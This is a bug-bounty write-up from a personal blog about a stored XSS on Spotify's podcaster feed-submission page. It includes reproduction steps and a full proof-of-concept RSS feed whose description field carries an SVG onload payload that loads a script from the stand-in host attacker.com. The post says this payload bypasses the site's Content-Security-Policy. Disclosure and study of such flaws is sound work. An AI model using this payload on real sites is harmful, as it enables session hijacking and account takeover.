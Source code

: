 ```yaml
---
layout: post
title: A XSS on podcasters.spotify.com 
date: 2021-04-06 16:49:47 +07:00
#modified: 2020-10-26 16:49:47 +07:00
description: A quick report of a XSS vulnerability discovered on podcasters.spotify.com.
tags:
  - bug bounty
  - spotify
  - xss
  - web vulnerability
image: /assets/img/xss-on-spotify/
---
```


In this blog post I'll share a report I wrote a few months ago for a XSS bug found on `podcasters.spotify.com`. This was submitted on [HackerOne](https://hackerone.com/) but unfortunately, it was already reported and mine was considered a duplicate, oh well, better luck next time.


## Summary
When a user submits a new podcast RSS feed for verification, the description tag inside it is not properly escaped. This results in JavaScript being executed on the page which could allow attackers to hijack users' session cookies and/or take over accounts.

## Impact
When a user submits a malicious or compromised podcast RSS feed, attackers would be able to hijack the user's account.

[![XSS Example 1]({{page.image}}spotify-xss-example.png)]({{page.image}}spotify-xss-example.png)

[![XSS Example 2]({{page.image}}spotify-xss-example2.png)]({{page.image}}spotify-xss-example2.png)

### Steps To Reproduce

1. Start by navigating to: `https://podcasters.spotify.com/submit`
2. Click on "Get Started" button
3. Submit a malicious RSS feed link (proof of concept provided)
4. The page renders whatever is in `<description></description>` 

The proof of concept simply shows the logged-in user's cookie in the web browser. I've provided a link to my custom podcast RSS feed: `https://attacker.com/feed.xml`. The **feed.xml** attachment contains HTML which includes a **x.js** Javascript which alerts the user's cookie. This was tested to check whether it was possible to get around Content-Security-Policy, and it is.

Sample of **feed.xml** (view attachment):
```xml
----[CUT]----
<description>
<![CDATA[<svg/onload=body.appendChild(document.createElement`script`).src='https://attacker.com/x.js' hidden/>]]>
</description>
----[CUT]----
```

And **x.js** simply contains:
```
alert(document.cookie)
```


### Proof of Concept
**feed.xml**

```xml
<rss version="2.0" xmlns:itunes="http://www.itunes.com/dtds/podcast-1.0.dtd" xmlns:googleplay="http://www.google.com/schemas/play-podcasts/1.0" xmlns:atom="http://www.w3.org/2005/Atom" xmlns:media="http://search.yahoo.com/mrss/" xmlns:content="http://purl.org/rss/1.0/modules/content/">
<channel>
    <atom:link href="https://attacker.com/feed.xml" rel="self" type="application/rss+xml"/>
    <title>REKITTO</title>
    <link>https://attacker.com/feed.xml</link>
    <language>en-gb</language>
    <description><![CDATA[<svg/onload=body.appendChild(document.createElement`script`).src='https://attacker.com/x.js' hidden/>]]></description>
    <image>
      <url>https://attacker.com/serial-itunes-logo.png</url>
      <title>XYZ</title>
      <link>https://attacker.com/</link>
    </image>
    <itunes:explicit>no</itunes:explicit>
    <itunes:type>episodic</itunes:type>
    <itunes:subtitle>True stories from the dark side of the Internet</itunes:subtitle>
    <itunes:author>Tester</itunes:author>
    <itunes:summary>Summary text here.</itunes:summary>
    <itunes:owner>
      <itunes:name>Tester</itunes:name>
      <itunes:email>user@example.com</itunes:email>
    </itunes:owner>
    <itunes:image href="https://attacker.com/serial-itunes-logo.png"/>
    <itunes:category text="Technology">
    </itunes:category>
    <item>
      <title>Streaming: The Example Show</title>
      <description>Some text here.</description>
      <pubDate>Sat, 23 May 2020 03:29:15 -0000</pubDate>
      <itunes:title>Testing</itunes:title>
      <itunes:episodeType>trailer</itunes:episodeType>
      <itunes:keywords><![CDATA[<p>More Text</p>]]></itunes:keywords>
      <itunes:author>Tester</itunes:author>
      <itunes:image href="https://attacker.com/serial-itunes-logo.png"/>
      <itunes:subtitle>Streaming: The Example Show</itunes:subtitle>
      <itunes:summary>Another summary :)</itunes:summary>
      <content:encoded>
        <![CDATA[<p>Even more encoded text</p>]]>
      </content:encoded>
      <itunes:duration>6</itunes:duration>
      <itunes:explicit>no</itunes:explicit>
      <guid isPermaLink="false"><![CDATA[dd10738e-9efg-11ea-bb2d-cf99e05d892b]]></guid>
      <enclosure url="https://attacker.com/sample.mp3" length="6" type="audio/mpeg"/>
    </item>
  </channel>
</rss>
```
